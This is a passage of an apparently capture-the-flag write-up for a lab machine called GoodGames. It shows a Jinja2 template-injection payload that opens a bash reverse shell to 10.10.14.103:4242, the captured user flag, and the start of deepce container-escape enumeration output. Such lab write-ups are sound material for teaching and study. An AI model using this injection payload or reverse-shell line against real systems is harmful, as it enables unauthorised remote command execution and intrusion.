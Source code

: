 

## Foothold

### Reverse Shell

```text
Payload: 
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('bash -c "/bin/bash -l > /dev/tcp/10.10.14.103/4242 0<&1 2>&1"').read() }}
```

{{<figure src="/images/goodgames/revshell.png" title="Reverse Shell">}}

### UserFlag
{{<figure src="/images/goodgames/userflag.png" title="User Flag">}}
```bash
root@3a453ab39d3d:/home/augustus# cat user.txt
432192a125f3c3728c0ce56b8c2513bf
```

## Privilege Escalation

### Docker Escape

```bash
oot@3a453ab39d3d:/home/augustus# ll
total 24
drwxr-xr-x 2 1000 1000 4096 Dec  2 23:51 .
drwxr-xr-x 1 root root 4096 Nov  5 15:23 ..
lrwxrwxrwx 1 root root    9 Nov  3 10:16 .bash_history -> /dev/null
-rw-r--r-- 1 1000 1000  220 Oct 19 11:16 .bash_logout
-rw-r--r-- 1 1000 1000 3526 Oct 19 11:16 .bashrc
-rw-r--r-- 1 1000 1000  807 Oct 19 11:16 .profile
-rw-r----- 1 1000 1000   33 Mar 12 04:43 user.txt
root@3a453ab39d3d:/home/augustus# cat user.txt
432192a125f3c3728c0ce56b8c2513bf
```

### Deepce Output

```bash

                      ##         .
                ## ## ##        ==
             ## ## ## ##       ===
         /"""""""""""""""""\___/ ===
    ~~~ {~~ ~~~~ ~~~ ~~~~ ~~~ ~ /  ===- ~~~
         \______ X           __/
           \    \         __/
            \____\_______/
          __
     ____/ /__  ___  ____  ________
    / __  / _ \/ _ \/ __ \/ ___/ _ \   ENUMERATE
   / /_/ /  __/  __/ /_/ / (__/  __/  ESCALATE
   \__,_/\___/\___/ .___/\___/\___/  ESCAPE
                 /_/

 Docker Enumeration, Escalation of Privileges and Container Escapes (DEEPCE)
 by stealthcopter

==================================( Colors )===================================
[+] Exploit Test ............ Exploitable - Check this out
[+] Basic Test .............. Positive Result
[+] Another Test ............ Error running check
```